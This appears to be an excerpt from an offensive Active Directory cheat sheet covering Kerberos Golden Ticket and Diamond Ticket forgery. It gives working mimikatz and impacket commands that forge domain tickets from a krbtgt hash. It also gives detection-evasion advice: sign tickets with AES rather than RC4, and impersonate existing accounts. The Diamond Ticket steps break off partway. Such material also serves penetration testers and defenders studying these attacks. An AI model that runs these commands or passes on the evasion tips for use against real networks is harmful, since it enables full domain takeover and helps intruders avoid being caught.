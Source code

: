 ### Golden Ticket
A golden ticket is signed and encrypted by the hash of krbtgt account which makes it a valid TGT ticket. The krbtgt user hash could be used to impersonate any user with any privileges from even a non-domain machine

| Attribute   | Value                                  |
| ----------- | -------------------------------------- |
| Domain      | legitcorp.local                        |
| Domain SID  | S-1-5-21-1935943001-39345449-285568504 |
| krbtgt hash | 7e8612a348a729bcb2f597a9cbc27c12       |
| Username    | trex                                   |
```css
# mimikatz
kerberos::golden /domain:legitcorp.local /sid:S-1-5-21-1935943001-39345449-285568504 /rc4:7e8612a348a729bcb2f597a9cbc27c12 /user:trex /ptt

# impacket
ticketer.py -domain legitcorp.local -nthash 7e8612a348a729bcb2f597a9cbc27c12 -domain-sid S-1-5-21-1935943001-39345449-285568504 trex
```

**Opsec Consideration**
In a scenario where you are working on a production domain that implements endpoint detections and sensors. You might want to avoid using *krbtgt's RC4 hash* as most of the detection mechanism detects a ticket that is encrypted/signed with a RC4 hash of krbtgt account. Always consider to **use `aes256` or `aes128` to encrypt/sign the forged ticket**. 

Another thing to keep in mind is that always **use an existing account** to avoid detection as most of the detection mechanism detects the use of a non-existance account. 
```bash
# mimikatz
kerberos::golden /domain:range.net /sid:S-1-5-21-1935943001-39345449-285568504 [/aes128|/aes256]:aesKey /user:exist_account /ptt

# impacket
ticketer.py -domain range.net -aesKey [AESKey] -domain-sid S-1-5-21-1935943001-39345449-285568504 exist_account
```

### Diamond Ticket
A diamond ticket is quite different from a [Golden Ticket](#golden-ticket) because golden ticket wouldn't require TGT request since it can be forged offline. Diamond ticket is where we can request a valid user's TGT regardless the level of access on the domain, then the ticket will be modified to allow us to request TGS for a specific service. This is a better technique because normally golden ticket is easier to detect by monitoring for service ticket requests (TGS-REQs) that have no correspokding TGT request (AS-REQ). Detailed steps are as follows:

| Attribute           | Value                                                            |
| ---                 | -----------                                                      |
| Username & Password | loki:Password123                                                 |
| Domain              | range.net                                                        |
| krbtgt AES-256 Key  | 8161d45ac308add4c553fad55fe70d8ce8c06160eeeb720df8bcbf16575400ee |
| User in PAC         | rangeadm                                                         |
1. Request a diamond key with [Rubeus](https://github.com/GhostPack/Rubeus). It does the following steps:-
```
i. Request normal user TGT
ii. Decrypt the TGT with krbtgt aes key
iii. Modify ticket PAC and insert _rangeadm_ in the PAC
```
